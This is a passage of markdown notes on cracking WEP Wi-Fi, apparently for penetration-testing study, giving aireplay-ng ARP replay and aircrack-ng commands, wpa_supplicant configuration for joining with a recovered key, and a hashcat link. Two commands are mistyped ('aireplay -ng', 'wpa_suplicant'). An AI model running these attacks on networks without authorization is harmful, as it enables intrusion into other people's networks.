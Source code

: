         ```bash
        ip a
        ```

    4. NOTE: WHEN YOU SEE "ASSOCIATION SUCCESSFUL" MOVE TO ARP REPLAY!!

3. **ARP REPLAY** = USE WHEN THERE'S LIMITED DATA

    ```bash
    aireplay -ng -3 -b <BSSID> -h <host MAC (top talker)> wlan#mon
    ```

    1. `-3` or `--arpreplay`: ARP replay attack (used to generate traffic)
    2. `-b`: BSSID from airodump output
    3. `-h`: host MAC with the most frames (TOP TALKER) sent under "STATION"

4. **DEAUTH/AIRCRACK**

    ```bash
    aircrack-ng <file.pcap>
    ```

### Supplicant Files for WEP

#### Adding WEP Credentials

```bash
sudo wpa_passphrase 'SSID' 'password' >> /etc/wpa_supplicant/wep.conf
```

```bash
sudo nano /etc/wpa_supplicant/wep.conf
```

1. `ssid="your SSID"`
2. `key_mgmt=NONE`
3. `wep_key0=<your key>`
4. `wep_tx_keyidx=0`

### For Open WEP Credentials

```bash
sudo nano /etc/wpa_supplicant/wep.conf
```

1. `ssid="your SSID"`
2. `key_mgmt=NONE`

### Connecting the Adapter

```bash
sudo wpa_suplicant -B -c  /etc/wpa_supplicant/wep.conf -i wlan#
```

## Hashcat

[Hash Cat Rule Based Attacks](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
